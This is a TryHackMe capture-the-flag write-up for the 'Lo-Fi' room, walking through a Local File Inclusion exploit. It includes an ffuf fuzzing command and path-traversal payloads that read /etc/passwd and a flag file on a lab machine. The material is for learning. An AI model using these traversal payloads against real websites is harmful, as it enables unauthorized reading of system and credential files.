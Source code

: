 # Lo-Fi Challenge 

## Room Info

- Platform: TryHackMe
- Difficulty: Easy
- Category: Web Exploitation
- Focus: Local File Inclusion (LFI), Directory Traversal

## Objectives
- Identify and exploit a Local File Inclusion vulnerability
- Access sensitive files using path traversal
- Capture the flag

## Exploitation

I began by visiting the target website: http://machine_ip/
After navigating through different pages, I noticed that the URL structure included a page parameter: http://machine_ip/?page=relax.php

![Page parameter](parametre_LFI.png)

To automate the discovery of potential Local File Inclusion vulnerabilities, I used ffuf, with the ``LFI-Jhaddix.txt`` wordlist

<pre>
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://machine_ip/?page=FUZZ" -fl 124
</pre>

![FFUF LFI Results](FFUF.png)

After identifying the page parameter as vulnerable to Local File Inclusion, I tested one of the fuzzed payloads:
<pre>
http://machine_ip/?page=../../../../etc/passwd
</pre>

![LFI /etc/passwd result](Test.png)

After confirming the LFI vulnerability, I attempted to access the final target file:
<pre>
http://machine_ip/?page=../../../../../flag.txt
</pre>

The server responded with the contents of flag.txt, revealing the flag

![Flag found](flag.png)






